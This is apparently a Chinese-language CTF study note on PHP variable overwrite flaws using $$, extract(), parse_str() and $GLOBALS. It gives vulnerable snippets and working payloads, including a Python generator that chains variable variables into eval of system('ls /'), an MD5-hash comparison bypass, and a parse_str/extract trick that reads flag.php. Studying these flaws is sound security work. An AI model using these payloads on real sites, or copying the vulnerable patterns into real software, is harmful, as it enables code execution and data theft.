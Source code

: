 ```
$a = 'b';
$b = 'ab';
$$a = 'bc' ;//此时$b会变成bc
```
代码审计搜搜$$
经常导致变量覆盖漏洞场景有：
$$，extract()函数，parse_str()函数，import_request_variables()使用不当，开启了全局变量注册等。

## **extract()**
和parse_str()差不多。
例如：
`extract($_POST);`: 这个函数将 `$_POST` 数组中所有的键值对转换为变量和对应的值。例如，如果 `$_POST['user']` 存在，及POST传参user=xx，那么该函数将创建一个名为 `$user` 的变量，并将其值设置为 `$_POST['user']` 的值xx。

如果传参_SESSION[flag]=123。
那么覆盖只有$_SEESION[flag]=123。

^
```
extract($vars);  配合include $__template_path__;
若$vars传参可控，则可实现任意文件读取。
```

^
## **变量覆盖引出$GLOBALS数组**
$GLOBALS数组中有flag值。
```
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

 $v1 = $_GET['v1'];
 $v2 = $_GET['v2'];

if(preg_match('/ctfshow/', $v1)){
        getFlag($v1,$v2);
 }



?v1=ctfshow&v2=GLOBALS
类似
$ctfshow=$GLOBALS;
var_dump($ctfshow);
```

^
## **常规变量覆盖**
```
error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```
```
import string
a='_=a&'
s=string.ascii_letters
code="system('ls /');"
for i in range(35):
    a+=s[i]+"="+s[i+1]+"&"
a+=s[i]+"="+code
print(a)

POST传递：
_=a&a=b&b=......&I=J&J=system('ls /');
```


^
## **parse_str()函数**
类似extract()函数和变量覆盖。
parse_str() 函数把查询字符串解析到变量中。
如果未设置第二个参数的array参数，由该函数设置的变量将覆盖其他地方定义已存在的同名变量。
```
// 假设我们有一个 URL 编码的字符串
$str = "name=Kimi&age=30";

// 使用 parse_str() 解析字符串
parse_str($str);

// 输出解析后的变量
echo $name; // 输出 Kimi
echo $age;  // 输出 30
```
```
parse_str($str,$arr);
$arr['name']
$arr['age']
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
   parse_str($v1,$v2);
   if($v2['flag']==md5($v3)){
       echo $flag;
   }

Payload：
GET：v3=0
POST: v1=flag=cfcd208495d565ef66e7dff9f98764da
```


和extract()配合题：
```
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
?_POST[key1]=36d&_POST[key2]=36d
通过parse_str转成$_POST[key1]=36d
通过extract转成$key1=36d
```
